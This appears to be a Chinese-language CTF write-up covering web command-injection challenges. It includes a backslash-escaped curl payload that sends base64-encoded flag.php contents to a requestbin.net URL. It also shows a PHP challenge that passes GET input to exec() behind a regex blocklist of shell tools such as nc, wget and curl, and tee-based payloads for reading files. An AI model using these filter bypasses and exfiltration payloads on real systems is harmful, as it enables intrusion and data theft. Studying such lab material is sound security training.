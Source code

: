 133plus

增加了过滤curl，用\绕过

```
cu\rl https://requestbin.net/r/d6dln1sn?q=`ca\t flag.php | gr\ep flag | bas\e64`
```

解法二：

先提取前面六个字符触发F=$F，就可以将flag拷贝到1.txt中

```
payload：?F=`$F `;cp flag.php 1.txt
```



## WEB136

```
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```

正常思路exec是无回显的需要用到echo 但是>被过滤

发现一个tee

```
tee a.txt b.txt，将a.txt复制到b.txt
ls | tee b.txt,将ls命令的执行结果写入b.txt
```

利用tee回显

```
payload：
?c=ls /|tee ls
?c=tac /f149_15_h3r3|tee flag
```



## WEB137
